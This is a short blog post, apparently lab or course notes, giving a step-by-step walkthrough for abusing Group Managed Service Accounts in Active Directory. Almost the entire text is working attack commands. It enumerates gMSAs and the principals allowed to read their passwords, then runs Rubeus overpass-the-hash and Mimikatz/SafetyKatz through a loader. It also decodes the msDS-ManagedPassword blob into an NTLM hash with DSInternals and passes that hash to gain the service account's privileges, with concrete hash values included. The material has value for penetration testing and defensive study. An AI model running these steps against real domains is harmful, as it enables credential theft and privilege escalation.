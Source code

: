```yaml
---
layout: post
date: 26/11/2022
author: Aswin Gopalakrishnan
title:  Group Managed Service Accounts (gMSA) Abuse
---
```


A group Managed Service Account (gMSA) provides automatic password management, SPN management, and delegated administration for service accounts across multiple servers.

## Enumerate gMSAs and User

A gMSA has objectclass `msDS-GroupManagedServiceAccount`. This can be used to find gMSA accounts.

1.Find gMSAs in the domain. 
```bash
Get-ADServiceAccount -Filter *
Get-DomainObject -LDAPFilter '(objectClass=msDS-GroupManagedServiceAccount)'
```
2.Find the users/principals who have permissions to read the password. In this case, to read gMSA password of `jumpone` service account.
```bash
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword`
``` 

## Over Pass-the-Hash

1. Using Rubeus
```bash
Rubeus.exe asktgt /user:provisioningsvc /aes256:a573a68973bfe9cbfb8037347397d6ad1aae87673c4f5b4979b57c0b745aee2a /domain:us.techcorp.local /createnetonly:C:\Windows\System32\cmd.exe /show
```
2. Using Loader and Mimikatz
```bash
.\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe "Sekurlsa::pth /user:provisioningsvc /domain:us.techcorp.local /aes256:a573a68973bfe9cbfb8037347397d6ad1aae87673c4f5b4979b57c0b745aee2a /run:cmd.exe" "exit"`
- `sekurlsa::opassth
```
3. Fetch Password Blob
```bash
$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword`
```
The attribute `msDS-ManagedPassword` stores the password blob in binary form of `MSDS-MANAGEDPASSWORD_BLOB`. Once we have compromised a principal that can read the blob, use ADModule to read and DSInternals to compute NTLM hash.
4. Pass-the-hash and get priveleges of gMSA
```bash
sekurlsa::pth /user:jumpone /domain:us.techcorp.local /ntlm:0a02c684cc0fa1744195edd1aec43078
```
